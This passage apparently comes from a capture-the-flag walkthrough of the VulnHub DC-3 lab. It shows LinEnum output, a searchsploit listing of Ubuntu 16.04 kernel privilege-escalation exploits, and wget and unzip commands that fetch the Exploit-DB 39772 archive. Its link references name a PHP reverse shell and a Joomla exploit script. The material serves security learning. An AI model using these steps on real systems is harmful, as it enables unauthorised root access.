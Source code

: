 ```

[-] Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04 LTS"
NAME="Ubuntu"
VERSION="16.04 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
UBUNTU_CODENAME=xenial

[...]
```

`LinEnum` didn't find any interesting `SUID`'s but did give us some information regarding our system. This information 
being that we're on `Ubuntu 16.04 LTS` with the kernel version `4.4.0-21`. Running `searchsploit` for a possible 
exploit on the system reveals several exploits, but most notably 
`Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege Escalation`.

```
$ searchsploit Ubuntu 16.04
-------------------------------------------------------------------------------
Exploit Title
-------------------------------------------------------------------------------
[...]

Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter target_offset Out-of-Bounds Privilege Escalation
Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege Escalation

[...]

Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privilege Escalation
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalation (KASLR / SMEP)
-------------------------------------------------------------------------------
Shellcodes: No Result
```

Taking a look at its [Exploit-DB][Exploit-DB] page, we're told to use the Exploit-DB mirror and how to use the exploit.

```
$ wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip

$ unzip 39772
Archive:  39772.zip
   creating: 39772/
  inflating: 39772/.DS_Store         
   creating: __MACOSX/
   creating: __MACOSX/39772/
  inflating: __MACOSX/39772/._.DS_Store  
  inflating: 39772/crasher.tar       
  inflating: __MACOSX/39772/._crasher.tar  
  inflating: 39772/exploit.tar       
  inflating: __MACOSX/39772/._exploit.tar  
  
```

[DCAU]:                         https://twitter.com/DCAU7
[Joomla - Homepage]:            /images/posts/2019-07-15-vulnhub-dc_3/Joomla%20-%20Homepage.png
[joomblah.py]:                  https://github.com/XiphosResearch/exploits/tree/master/Joomblah
[Joomla - Admin]:               /images/posts/2019-07-15-vulnhub-dc_3/Joomla%20-%20Admin.png
[pentestmonkey]:                http://pentestmonkey.net/
[PHP Reverse Shell]:            http://pentestmonkey.net/tools/web-shells/php-reverse-shell
[Joomla - PHP Reverse Shell]:   /images/posts/2019-07-15-vulnhub-dc_3/Joomla%20-%20PHP%20Reverse%20Shell.png
[LinEnum]:                      https://github.com/rebootuser/LinEnum
[Exploit-DB]:                   https://www.exploit-db.com/exploits/39772